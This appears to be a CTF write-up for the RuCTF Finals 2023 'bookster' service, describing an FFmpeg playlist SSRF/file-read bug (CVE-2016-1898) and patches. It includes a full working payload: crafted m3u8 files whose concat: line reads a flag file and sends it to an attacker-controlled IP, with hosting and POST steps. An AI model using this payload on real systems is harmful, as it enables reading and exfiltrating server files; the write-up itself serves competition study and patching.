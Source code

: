 # RuCTF Finals 2023 | bookster

## Description

This is a service for preserving books in arctic ice for future generations. 
Program like Github Arctic Code Vault.
Because in the future everyone likes to watch short videos, you need to attach a video to the book. 
A preview image will generated from the video using FFmpeg.

The flag is text in book files.

## Original vuln - SSRF


In the source used some custom build of ffmpeg `ffpegctf218.tar.gz` based on old version FFmpeg 2.1.8.

That is confirmed to be vulnerable to reading any files by sending that poisoned playlist instead of a video.

CVE-2016-1898. [Habr post from VK ](https://habr.com/ru/companies/vk/articles/274855/)



## Execution flow

- Run some simple `server.py` on your machine with external ip
- Put this external ip into some file. e.g. `static\header.m3u8` (NOTE: file must end with '?' not '\n')
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://10.10.10.5:12345?
```
- Put this file to some public static files server. e.g run `python3 -m http.server 12322 --bind 0.0.0.0`
- Set link to this file and flag id in our bad video file e.g.`test.avi`
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.10.5:12322/header.m3u8|file:///vault/books/{flag_id}.txt
#EXT-X-ENDLIST
```
- Now you must send POST request  `api/books`  for save new book from some account with our bad video file e.g. run `python send_payload.py`
- Now you have request with flag on your machine from step one

All steps in one [sploit](/sploits/bookster/bookster.1.sploit.py)

### Patch original

- Need to reverse our binary build
- use bindiff with original ffmpeg 2.1.8
- Understand how ffmpeg options was renamed
- Find what hidden filter param apply to image 
- Update to newer version of ffmpeg with original filter param

### Patch alternative 

- Not save flags in file. Save it to database.
- Not use sqlite, rewrite service to postgres use.



